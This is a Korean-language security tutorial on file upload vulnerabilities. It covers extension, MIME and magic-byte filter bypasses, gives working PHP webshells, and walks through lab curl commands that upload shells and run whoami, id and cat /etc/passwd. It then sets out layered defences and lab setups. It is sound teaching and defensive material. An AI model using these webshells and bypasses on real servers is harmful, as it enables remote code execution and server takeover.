

## 1. 개요

파일 업로드 취약점은 서버 측에서 업로드되는 파일의 확장자나 내용을 제대로 검증하지 않을 때 발생한다. 공격자는 이 취약점을 이용해 악의적인 스크립트 파일(웹쉘)을 서버에 업로드하여 원격에서 시스템 명령어를 실행(RCE)하고 서버의 제어권을 획득할 수 있다.

---

## 2. 위험도

| 항목 | 값 |
|------|-----|
| **OWASP Top 10** | A06:2025 - Insecure Design |
| **CWE** | CWE-434 (Unrestricted Upload of File with Dangerous Type) |
| **CVSS** | 9.8 (Critical) |

---

## 3. 우회 기법

### 확장자 필터링 우회

| 기법 | 예시 |
|------|------|
| 대소문자 혼용 | `shell.pHp`, `shell.PhP` |
| 대체 확장자 | `.phtml`, `.php3`, `.php5`, `.inc` |
| 이중 확장자 | `shell.php.jpg`, `shell.jpg.php` |
| Null Byte | `shell.php%00.jpg` (구버전 PHP) |

> **공격 흐름**: 프로필 이미지 업로드 기능에서 `shell.php.jpg` 업로드 → 서버가 `.jpg`만 확인하고 저장 → 공격자가 `/uploads/shell.php.jpg`로 접근하여 웹쉘 실행.

**웹쉘 업로드 흐름:**


---

### MIME 타입 우회

Burp Suite로 Content-Type 헤더 변조:
```http
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg  ← 변조
```

---

### Magic Bytes 우회

파일 시작 부분에 정상 이미지 시그니처 추가:
```php
GIF89a
<?php system($_GET['cmd']); ?>
```

---

## 4. 웹쉘

### 기본 웹쉘
```php
<?php
  if(isset($_REQUEST['cmd'])){
    system($_REQUEST['cmd']);
  }
?>
```

**실행:**
```
GET /uploads/shell.php?cmd=whoami HTTP/1.1
```

### 파일 브라우저
```php
<?php
  $path = isset($_GET['path']) ? $_GET['path'] : '.';
  foreach(scandir($path) as $file) {
    echo "<a href='?path=$path/$file'>$file</a><br>";
  }
?>
```

---

## 5. 보안 고려사항

파일 업로드 취약점은 단순한 확장자 필터링으로는 완전히 방어하기 어렵다. **다층 검증**이 필수이다.

### 5.1. 공격 시연 (Lab 환경)

#### 공격 1: 이중 확장자 우회

**[취약한 환경]**
*   서버가 마지막 확장자만 검사
*   Apache가 `.php`를 포함한 파일을 실행

**[공격 과정]**
```bash
# 1. 웹쉘 파일 준비
echo '<?php system($_GET["cmd"]); ?>' > shell.php.jpg

# 2. 프로필 이미지로 업로드 (jpg 허용됨)
curl -F "file=@shell.php.jpg" http://target/upload

# 3. 업로드 경로 확인 후 웹쉘 실행
curl "http://target/uploads/shell.php.jpg?cmd=whoami"
# 응답: www-data
```

**[공격 결과]**: 확장자 필터 우회 → RCE 🔓

---

#### 공격 2: Polyglot 파일 (이미지 + PHP)

**[취약한 환경]**
*   서버가 `getimagesize()` 같은 함수로 이미지 검증
*   하지만 파일 내부에 PHP 코드가 있어도 실행됨

**[공격 과정]**
```bash
# 1. 정상 GIF 파일에 PHP 코드 삽입
cat > polyglot.php.gif << 'EOF'
GIF89a
<?php system($_GET["cmd"]); ?>
EOF

# 2. 업로드 (GIF 시그니처가 있어 검증 통과)
curl -F "file=@polyglot.php.gif" http://target/upload

# 3. 웹쉘 실행
curl "http://target/uploads/polyglot.php.gif?cmd=id"
# 응답: uid=33(www-data) gid=33(www-data)
```

**[공격 결과]**: Magic Bytes 검증 우회 → RCE 🔓

---

#### 공격 3: .htaccess 업로드

**[취약한 환경]**
*   Apache 서버에서 `.htaccess` 업로드 허용
*   `AllowOverride All` 설정

**[공격 과정]**
```bash
# 1. .htaccess 파일 생성 (jpg를 PHP로 실행하도록 설정)
cat > .htaccess << 'EOF'
AddType application/x-httpd-php .jpg
EOF

# 2. .htaccess 업로드
curl -F "file=@.htaccess" http://target/upload

# 3. 웹쉘을 jpg로 위장하여 업로드
echo '<?php system($_GET["cmd"]); ?>' > shell.jpg
curl -F "file=@shell.jpg" http://target/upload

# 4. jpg 파일이 PHP로 실행됨
curl "http://target/uploads/shell.jpg?cmd=cat%20/etc/passwd"
```

**[공격 결과]**: 서버 설정 조작 → 임의 파일 실행 🔓

---

### 5.2. 방어 대책

| 공격 | 방어 |
|:---|:---|
| 확장자 우회 | 방어 1, 2 |
| Polyglot 파일 | 방어 3 |
| .htaccess 업로드 | 방어 4, 5 |

---

#### 방어 1: 확장자 화이트리스트

허용된 확장자만 명시적으로 허용한다.

```php
$allowed = ['jpg', 'png', 'gif'];
$ext = strtolower(pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION));

if (!in_array($ext, $allowed)) {
    die("허용되지 않는 파일 형식입니다.");
}
```

---

#### 방어 2: 파일명 랜덤화

원본 파일명을 사용하지 않고 랜덤 문자열로 교체한다.

```php
$newName = bin2hex(random_bytes(16)) . '.jpg';
move_uploaded_file($_FILES['file']['tmp_name'], '/uploads/' . $newName);

// 원본 파일명은 DB에 별도 저장
$db->insert(['original_name' => $_FILES['file']['name'], 'stored_name' => $newName]);
```

---

#### 방어 3: 파일 내용(Magic Bytes) 검증

실제 파일 시그니처를 확인하고, 이미지라면 다시 생성한다.

```php
// 1. 실제 이미지인지 검증
$info = getimagesize($_FILES['file']['tmp_name']);
if ($info === false) {
    die("이미지 파일이 아닙니다.");
}

// 2. 이미지 재생성 (내장된 악성 코드 제거)
$img = imagecreatefromstring(file_get_contents($_FILES['file']['tmp_name']));
imagejpeg($img, '/uploads/' . $newName, 90);
imagedestroy($img);
```

---

#### 방어 4: 업로드 디렉터리 스크립트 실행 차단

Apache에서 업로드 폴더의 PHP 실행을 비활성화한다.

```apache
# /uploads/.htaccess
php_flag engine off

# 또는 httpd.conf에서
<Directory "/var/www/html/uploads">
    php_flag engine off
    Options -ExecCGI
    RemoveHandler .php .phtml .php3 .php5
</Directory>
```

---

#### 방어 5: 업로드 경로를 Web Root 외부로 이동

업로드된 파일을 웹에서 직접 접근할 수 없는 경로에 저장한다.

```php
// ❌ 위험: 웹에서 직접 접근 가능
move_uploaded_file($tmp, '/var/www/html/uploads/' . $name);

// ✅ 안전: 웹 루트 외부에 저장
move_uploaded_file($tmp, '/var/data/uploads/' . $name);

// 다운로드는 별도 스크립트를 통해 제공
// download.php?id=123 → 권한 확인 후 파일 전송
```

---

## 6. 실습 환경

### DVWA
```bash
docker run -d -p 80:80 vulnerables/web-dvwa
```
*   File Upload 메뉴에서 Low/Medium/High 난이도별 우회 실습

### Upload Labs
```bash
docker run -d -p 80:80 c0ny1/upload-labs
```
*   21개 레벨별 다양한 업로드 필터 우회 챌린지

---

## OWASP Top 10 매핑

| 관련 항목 | 설명 |
|----------|------|
| **A05: Injection** | 업로드된 웹쉘이 서버에서 실행되는 RCE(Remote Code Execution)로 이어진다. |
| **A06: Insecure Design** | 파일 검증 로직의 설계 결함(확장자만 검사 등)으로 발생한다. |

<hr class="short-rule">